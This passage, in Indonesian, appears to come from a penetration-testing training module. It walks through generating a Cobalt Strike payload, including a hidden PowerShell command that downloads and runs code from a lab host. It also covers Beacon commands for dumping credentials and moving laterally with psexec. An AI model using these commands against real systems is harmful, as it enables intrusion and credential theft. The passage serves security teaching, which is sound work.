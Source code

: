 2.  **Langkah 2: Pembuatan Payload (di Cobalt Strike)**

      * Operator akan menggunakan menu *Attacks* untuk membuat *payload*. Pilihan yang sangat populer adalah **Scripted Web Delivery**, yang menghasilkan satu baris perintah PowerShell. Perintah ini, ketika dieksekusi, akan mengunduh dan menjalankan *payload* Beacon sepenuhnya di memori, tanpa menyentuh disk (*fileless*).
      * Contoh Payload PowerShell: `powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.100.10/a'))"`

3.  **Langkah 3: Pengiriman dan Eksekusi (di Shell Metasploit)**

      * Kembali ke sesi *shell* yang kita dapatkan dari Metasploit di Modul 3.
      * Kita akan menyalin dan menempelkan perintah PowerShell dari Cobalt Strike ke dalam *shell* Metasploit dan menjalankannya di target.

4.  **Langkah 4: Beacon Check-in (di Cobalt Strike)**

      * Beberapa saat setelah perintah dieksekusi, sebuah entri baru akan muncul di antarmuka Cobalt Strike. Ini adalah **Beacon** kita\! Target telah berhasil dikompromikan dengan *payload* Cobalt Strike. Tampilan visual akan menunjukkan detail host, pengguna yang aktif, dll.

5.  **Langkah 5: Interaksi Pasca-Eksploitasi (di Cobalt Strike)**

      * Operator sekarang dapat berinteraksi dengan Beacon. Klik kanan pada target dan pilih **Interact**. Ini akan membuka konsol Beacon.
      * **Simulasi Perintah Umum:**
          * `beacon> sleep 0`
              * **Penjelasan**: Mengubah interval *beaconing* menjadi 0 detik untuk interaktivitas instan di lab. **Di operasi nyata, ini sangat buruk** karena menciptakan lalu lintas yang sangat berisik. Interval normal bisa 60 detik atau lebih dengan *jitter* (variasi acak).
          * `beacon> shell whoami`
              * **Penjelasan**: Menjalankan perintah `whoami` di target. Outputnya (`root`) akan kembali ke konsol Beacon.
          * `beacon> logonpasswords`
              * **Penjelasan**: Ini adalah alias Cobalt Strike untuk menjalankan alat seperti Mimikatz. Ini akan mencoba mengekstrak kredensial *plaintext* dan *hash* dari memori. Hasilnya akan ditampilkan di konsol.
          * `beacon> net view`
              * **Penjelasan**: Mencari host lain di jaringan. Ini adalah langkah awal untuk gerakan lateral.
          * `beacon> jump psexec <target_ip_lain> http_beacon`
              * **Penjelasan**: Ini adalah perintah **gerakan lateral**. Dengan menggunakan kredensial yang mungkin telah dicuri, perintah ini akan mencoba untuk mengotentikasi ke host lain (`<target_ip_lain>`), menyalin *payload* Beacon ke sana, dan menjalankannya. Jika berhasil, Beacon kedua akan muncul di antarmuka Cobalt Strike.

-----

-----

### **G. TUGAS: PENYUSUNAN LAPORAN UJI PENETRASI**

**Tujuan:** Mengkonsolidasikan semua temuan dari Modul 3, 4, dan 5 ke dalam sebuah laporan profesional yang mensimulasikan hasil dari sebuah *penetration test engagement*.

**Format Laporan:**

